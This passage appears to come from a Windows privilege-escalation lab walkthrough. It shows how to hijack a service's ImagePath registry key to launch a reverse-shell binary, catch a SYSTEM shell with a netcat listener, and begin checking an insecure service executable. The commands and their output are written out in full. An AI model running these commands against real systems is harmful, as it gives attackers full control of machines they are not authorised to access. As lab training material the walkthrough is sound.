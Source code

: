

- Overwrite the ImagePath registry key to point to the reverse shell binary


```powershell
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

# reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d <PATH_TO_REVERSE_SHELL_BINARY.exe> /f

The operation completed successfully.
```


- Start a listener and start the service to spawn reverse shell as SYSTEM


```powershell
net start regsvc # replace 'regsvc' with service name

#######################################################

❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.159.9 49933
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```



###  **Insecure Service Executables**



Query the service and note that it runs with SYSTEM privileges (`SERVICE_START_NAME`).


```powershell
C:\PrivEsc>sc qc filepermsvc

# sc qc <SERVICE_NAME>

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
